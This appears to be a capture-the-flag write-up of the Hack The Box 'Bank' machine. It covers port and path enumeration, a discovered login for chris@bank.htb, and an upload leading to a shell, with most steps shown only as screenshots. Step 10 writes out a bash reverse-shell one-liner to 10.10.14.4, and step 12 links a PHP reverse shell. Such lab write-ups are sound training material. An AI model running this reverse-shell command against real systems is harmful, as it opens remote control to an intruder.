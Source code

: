 1. Run nmap to discover some open ports and services from the web server. Unfortunately, It doesn't work :(
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/444b5f7e-77a0-4fa8-9436-7f7362b919da)

2. Let's move to the next step, I try to input the ip address and it refers to domain bank.htb. Add to **/etc/hosts/** so I can open the website.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3a8d03ce-6644-4a77-b25a-62a37f81fe5e)

Website:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4d75ea1a-0ee0-4043-ab12-1c4723a417d8)

3. I try to discover some paths with Feroxbuster and found nothing interesting.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/56060574-586b-49e9-8c89-11767235897c)

4. Next, I use Gobuster to helps me for checking the paths.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/983c2b5d-6a77-42e9-9212-9432426c9f91)

5. After waiting for a hour (I don't know why my Gobuster is running slowly), I discover an interesting path named balance-transfer which contains some files that been encrypted before. 
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/9a5fd218-6ba1-43a9-bf26-197780120082)

6.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/16f79c16-d0b8-4b3b-9ca4-1fe5490f989b)

7.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/80db165b-156a-4cda-9a1c-44d05e9b3af2)

**Email**: chris@bank.htb<br>
**Password**: !##HTBB4nkP4ssw0rd!##<br>

After Login:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/2b1071fd-84a8-462b-bb0f-950a338d076e)

8.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/398599ce-83cd-4721-8f86-349407801036)

9.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/0d186ff2-f5d8-4718-a7b9-eaa3b7333197)


10. [link](https://www.revshells.com/)

Payload: bash -c "bash -i >& /dev/tcp/10.10.14.4/777 0>&1"

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/df5e05a6-8f8b-49a2-bc83-d7fda57735e2)

11.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/865f91da-ae43-45ac-ba0d-9f677021eacc)

12. [Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3d6dcad6-9316-42b1-801c-dbe28eec3b6f)

Attacker Terminal:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/0daeeb3d-7d38-4245-959a-73d22dd26409)

14.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/055453f7-3cd0-497c-bf68-bae88abdb754)

15.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1148f8d8-0b9a-464f-9ec9-40a9775df200)

16.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1dd2ddf5-490c-4469-a2cf-4c61ec741f3a)

17.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/c322a01f-6674-4bb9-ac4c-79bd6ffeb533)

18.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/19aa24e4-402d-4972-a8ab-d179156fccab)




































